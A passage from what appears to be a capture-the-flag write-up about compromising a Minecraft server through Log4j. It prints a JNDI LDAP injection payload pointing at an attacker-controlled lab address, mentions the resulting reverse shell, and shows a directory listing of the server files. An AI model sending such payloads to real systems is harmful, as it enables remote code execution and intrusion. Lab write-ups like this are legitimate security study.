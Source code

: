 ![Image](Pasted%20image%2020240413153516.png)
_Reverse Shell from log4j exploit_

![Image](Pasted%20image%2020240414133719.png)
_Enter the ldap server command ${jndi:ldap://10.10.14.36:1389/a}_

As I connect to the reverse shell now let explore further .
While Enumeration I found this `jar` file interesting so I tried to download it but can't able to with smb share.

```powershell
c:\users\svc_minecraft\server>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is C419-63F6
C:.
|   banned-ips.json
|   banned-players.json
|   eula.txt
|   ops.json
|   server.jar
|   server.properties
|   usercache.json
|   whitelist.json
|   
+---logs
|       2023-10-24-1.log.gz
|       2023-10-24-2.log.gz
|       2023-10-24-3.log.gz
|       2023-10-24-4.log.gz
|       2023-10-26-1.log.gz
|       2023-10-28-1.log.gz
|       2023-10-28-2.log.gz
|       2023-11-14-1.log.gz
|       2023-11-14-2.log.gz
|       2023-11-14-3.log.gz
|       2023-11-14-4.log.gz
|       2023-11-21-1.log.gz
|       2023-11-21-2.log.gz
|       2023-11-21-3.log.gz
|       2023-11-21-4.log.gz
|       2023-11-22-1.log.gz
|       2023-11-22-2.log.gz
|       2023-11-22-3.log.gz
|       2024-02-05-1.log.gz
|       2024-02-05-2.log.gz
|       2024-02-05-3.log.gz
|       2024-02-05-4.log.gz
|       2024-02-06-1.log.gz
|       2024-02-06-2.log.gz
|       2024-02-06-3.log.gz
|       latest.log
|       
+---plugins
|       playercounter-1.0-SNAPSHOT.jar
|       
\---world
    |   level.dat
    |   level.dat_old
    |   session.lock
    |   
    +---advancements
    |       079b5404-947e-3c1f-aa3e-6bd947fa1c48.json
    |       
```